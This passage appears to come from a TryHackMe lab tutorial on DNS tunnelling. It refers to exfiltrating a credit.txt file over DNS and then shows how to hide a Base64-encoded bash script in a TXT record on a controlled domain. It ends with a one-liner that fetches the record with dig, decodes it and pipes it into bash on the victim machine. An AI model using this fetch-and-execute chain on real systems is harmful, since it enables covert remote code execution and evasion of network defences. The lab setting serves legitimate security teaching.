 Nice! We have successfully transferred the content of the credit.txt over the DNS protocol manually.

### C2 Communications over DNS

C2 frameworks use the DNS protocol for communication, such as sending a command execution request and receiving execution results over the DNS protocol. They also use the TXT DNS record to run a dropper to download extra files on a victim machine. This section simulates how to execute a bash script over the DNS protocol. We will be using the web interface to add a TXT DNS record to the tunnel.com domain name.

For example, let's say we have a script that needs to be executed in a victim machine. First, we need to encode the script as a Base64 representation and then create a TXT DNS record of the domain name you control with the content of the encoded script. The following is an example of the required script that needs to be added to the domain name:

```bash
#!/bin/bash 
ping -c 1 test.thm.com
```

The script executes the ping command in a victim machine and sends one ICMP packet to test.tunnel.com. Note that the script is an example, which could be replaced with any content. Now save the script to/tmp/script.sh using your favorite text editor and then encode it with Base64 as follows,

Encode the Bash Script as Base64 Representation

```markup
thm@victim2$ cat /tmp/script.sh | base64 
IyEvYmluL2Jhc2gKcGluZyAtYyAxIHRlc3QudGhtLmNvbQo=
```

Now that we have the Base64 representation of our script, we add it as a TXT DNS record to the domain we control, which in this case, the tunnel.com. You can add it through the web interface we provide http://10.10.39.16/ or https://10-10-39-16.p.thmlabs.com/ without using a VPN.&#x20;

Once we added it, let's confirm that we successfully created the script's DNS record by asking the local DNS server to resolve the TXT record of the script.tunnel.com. If everything is set up correctly, we should receive the content we added in the previous step.&#x20;

![DNS Server - Resolving TXT Record](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/38b87cfbbe254bef1e98f0dffa49451f.png)

Confirm the TXT record is Added Successfully

```markup
thm@victim2$ dig +short -t TXT script.tunnel.com
```

We used the dig command to check the TXT record of our DNS record that we added in the previous step! As a result, we can get the content of our script in the TXT reply. Now we confirmed the TXT record, let's execute it as follows,

Execute the Bash Script!

```markup
thm@victim2$ dig +short -t TXT script.tunnel.com | tr -d "\"" | base64 -d | bash
```

Note that we cleaned the output before executing the script using tr and deleting any double quotes ". Then, we decoded the Base64 text representation using base64 -d and finally passed the content to the bash command to execute.&#x20;
